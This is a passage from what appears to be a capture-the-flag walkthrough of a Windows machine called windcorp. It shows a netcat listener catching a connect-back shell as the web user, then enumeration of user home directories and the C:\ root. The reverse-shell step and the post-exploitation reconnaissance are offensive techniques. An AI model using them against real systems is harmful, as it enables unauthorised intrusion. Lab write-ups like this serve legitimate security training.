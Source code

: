 On pushing “Connect Back Shell”, I get a shell at `nc`:

```

oxdf@hacky$ rlwrap -cAr nc -lnvp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.11.147 50060
Shell enroute.......
Microsoft Windows [Version 10.0.20348.643]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
windcorp\web

```

## SMB as BeatriceMill

### Enumeration

#### Home Directories

There’s nothing of interest in `C:\users\web`. There are several other users with home directories:

```

c:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is BE61-D5E0

 Directory of c:\Users

02/16/2022  10:00 PM    <DIR>          .
02/15/2022  09:04 PM    <DIR>          .NET v4.5
02/15/2022  09:04 PM    <DIR>          .NET v4.5 Classic
10/05/2021  05:44 PM    <DIR>          AbbyMurr
03/25/2022  03:51 PM    <DIR>          Administrator
10/01/2021  05:49 PM    <DIR>          BeatriceMill
10/03/2021  04:13 PM    <DIR>          bpassrunner
03/21/2022  02:48 PM    <DIR>          GinaWild
09/24/2021  07:26 AM    <DIR>          Public
03/17/2022  02:46 PM    <DIR>          web
               0 File(s)              0 bytes
              10 Dir(s)   9,256,456,192 bytes free

```

web can’t access any of them.

#### Root of C:\

At the root of the file system, there are a few unusual directories:

```

c:\>dir
 Volume in drive C has no label.
 Volume Serial Number is BE61-D5E0

 Directory of c:\

10/12/2022  08:30 PM    <DIR>          Get-bADpasswords
10/02/2021  07:24 PM    <DIR>          inetpub
10/07/2021  08:38 AM    <DIR>          Microsoft
05/08/2021  09:20 AM    <DIR>          PerfLogs
03/25/2022  08:54 PM    <DIR>          Program Files
```
